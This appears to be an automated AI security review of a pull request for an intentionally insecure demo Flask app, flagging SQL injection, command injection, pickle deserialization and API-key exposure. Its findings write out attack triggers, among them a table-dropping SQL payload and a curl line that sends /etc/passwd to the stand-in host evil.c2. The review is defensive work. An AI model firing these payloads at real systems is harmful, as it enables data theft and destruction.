

<!-- torii-review pr=bench-f70 run=local -->
**Verdict:** REQUEST CHANGES
**Score:** 0 / 100
**Review effort:** 1
**Security audit:** FAIL — 4 confirmed critical/high vulnerabilities

---

### Summary
This file is an intentional demo of insecure patterns and must not be deployed. Four well-known vulnerability classes are present on four endpoints, each with a concrete attacker trigger. Hub-archival memory search, reconsolidated TP signatures, and federated recon all independently confirm every finding with score 1.0 matches.

---

### Architecture diagram
<!-- torii-mermaid -->

_Auto-generated from 0 changed file(s) (F57). Edges between groups are adjacency, not proven runtime dependencies._

### Blocking
All four findings below block merge. Each has:

- A **concrete path:line** in `demo/insecure/app.py`
- A **trigger scenario** an attacker can execute today
- A **CWE** and **severity**

No production system should ship any of these sinks.

---

### Security audit
| Concern | CWE | Severity | Path |
|---|---|---|---|
| SQL injection | CWE-89 | Critical | `demo/insecure/app.py:14` |
| Command injection (RCE) | CWE-78 | Critical | `demo/insecure/app.py:22` |
| Unsafe deserialization (RCE) | CWE-502 | Critical | `demo/insecure/app.py:18` |
| Secret exposure (API key) | CWE-200,CWE-798 | High | `demo/insecure/app.py:27` |

---

### Key findings
1. **SQL injection — `demo/insecure/app.py:14`** (Critical, CWE-89)
   `cur.execute(f"SELECT * FROM items WHERE name = '{q}'")`
   Uses Python f-string to interpolate `request.args.get("q")` directly into a SQL query. No parameterization, no escaping.
   *Trigger:* `GET /search?q=' OR 1=1 --` extracts all rows; `GET /search?q='; DROP TABLE items; --` destroys data.

2. **Command injection (RCE) — `demo/insecure/app.py:22`** (Critical, CWE-78)
   `subprocess.check_output(cmd, shell=True)` where `cmd = request.args.get("cmd", "echo hi")`.
   *Trigger:* `GET /run?cmd=cat /etc/passwd; curl http://evil.c2/$(cat /etc/passwd|base64)` executes arbitrary shell commands on the host.

3. **Unsafe deserialization (RCE) — `demo/insecure/app.py:18`** (Critical, CWE-502)
   `pickle.loads(data)` on untrusted `request.data` from a POST. Pickle can execute arbitrary code during deserialization.
   *Trigger:* `POST /load` with a crafted pickle payload (`__reduce__` gadget) achieves remote code execution on the server.

4. **Secret exposure — `demo/insecure/app.py:27`** (High, CWE-200)
   `os.environ.get("OPENROUTER_API_KEY", "missing")` is returned in the response body to any caller.
   *Trigger:* `GET /secret` leaks the live API key to any unauthenticated client.

---

### Multi-lens checklist (security pack)

| Lens | Verdict | Note |
|---|---|---|
| Injection (SQL/OS) | **concern** | SQLi L14, CMDi L22 — both f-string + shell=True with raw user input |
| AuthN/AuthZ | **concern** | No authentication on any endpoint; `/secret` leaks credentials to anyone |
| Secrets / Config | **concern** | `OPENROUTER_API_KEY` exposed verbatim in HTTP response body |
| XSS / Output encoding | n/a | Returns JSON, not HTML — but response content is not the attack surface here |
| CSRF | n/a | No state-changing GETs beyond the already-exploitable RCE endpoints |
| SSRF | n/a | No outbound requests in this file |
| Unsafe deserialize | **concern** | `pickle.loads` on raw POST body — full RCE via deserialization gadget |
| Crypto misuse | n/a | No crypto in this file |
| Path traversal | n/a | No file I/O in this file |
| DoS / unbounded work | ok | No loops or resource exhaustion patterns beyond per-request cost |

---

### Suggested test plan
<!-- torii-testplan -->

_Auto-generated (F61, deterministic). 0 case(s) (0 P0, 0 P1); 0 prod / 0 test file(s); 0 symbol(s) from diff. Authors: treat P0 as merge-blocking coverage gaps; model may refine._

None — no actionable test scenarios derived from files/diff.

### Tests & risk
No tests present for this file. Given the intentional insecurity, tests would need to assert each endpoint is *not* reachable in a production build. Risk is maximum: four independent RCE/information-disclosure paths, all reachable with a single HTTP request, no auth required.

---

### What I checked
- Full file contents of `demo/insecure/app.py` (4 endpoints, 28 lines)
- Hub-archival memory search via `archival_memory_search.py auto --files` — all 4 TP signatures (`sqli-search`, `cmdi-run`, `pickle-load`, `secret-exposure`) reconsolidated at score 1.0
- Federated memory search (`torii.py memory search`) — 8 hits including the 4 TP signatures
- Product doctor (`torii.py doctor`) — all checks pass, recovery skills active
- Recon warm hub themes: `sql_injection`, `command_injection`, `secrets_exposure`, `insecure_deserialization` — all at priority 0.85–0.95
- No FP patterns in memory to suppress; all findings are confirmed true-positives

---

**— Torii Gate**

---
*Torii · Hermes Agent · OpenRouter · memory-backed review*
*Cost / usage: model=`deepseek/deepseek-v4-pro` · ~$0.0075 (estimated) · 29k tokens · 3 API calls*
